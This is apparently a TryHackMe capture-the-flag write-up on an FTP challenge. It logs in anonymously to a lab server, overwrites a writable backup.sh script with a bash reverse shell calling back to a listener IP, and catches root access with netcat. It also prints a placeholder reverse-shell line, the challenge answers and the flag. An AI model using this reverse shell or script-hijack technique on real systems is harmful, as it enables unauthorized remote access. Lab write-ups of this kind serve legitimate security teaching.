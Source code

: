 ```yaml
---
description: Networking - FTP
---
```


# Anyone can be Santa!

## Video

{% embed url="https://www.youtube.com/watch?v=i-jqFYTPEV4" %}

## Resources

The standard for these two connections are the two ports:

* Port 20 \(Data\)
* Port 21 \(Commands\)

[pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

## Challenge

Name the directory on the FTP server that has data accessible by the "anonymous" user

```text
ftp 10.10.130.142
anonymous
ls
```

![](../.gitbook/assets/image%20%2871%29.png)

{% hint style="success" %}
public
{% endhint %}

What script gets executed within this directory?

```text
ftp 10.10.130.142
anonymous
ls
cd public
ls
```

![](../.gitbook/assets/image%20%2865%29.png)

{% hint style="success" %}
backup.sh
{% endhint %}

What movie did Santa have on his Christmas shopping list?

```text
ftp 10.10.130.142
anonymous
cd public
get shoppinglist.txt
quit
cat shoppinglist.txt
```

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
The Polar Express
{% endhint %}

Re-upload this script to contain malicious data \(just like we did in section **9.6**. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```text
ftp 10.10.130.142
anonymous
cd public
get backup.sh
```

![](../.gitbook/assets/image%20%2861%29.png)

```text
vi backup.sh

bash -i >& /dev/tcp/10.14.4.204/4444 0>&1
```

![](../.gitbook/assets/image%20%2818%29.png)

```text
put backup.sh
```

![](../.gitbook/assets/image%20%286%29.png)

```text
nc -lnp 4444
cd /root
cat flag.txt
```

![](../.gitbook/assets/image%20%287%29.png)

{% hint style="success" %}
THM{even\_you\_can\_be\_santa}
{% endhint %}

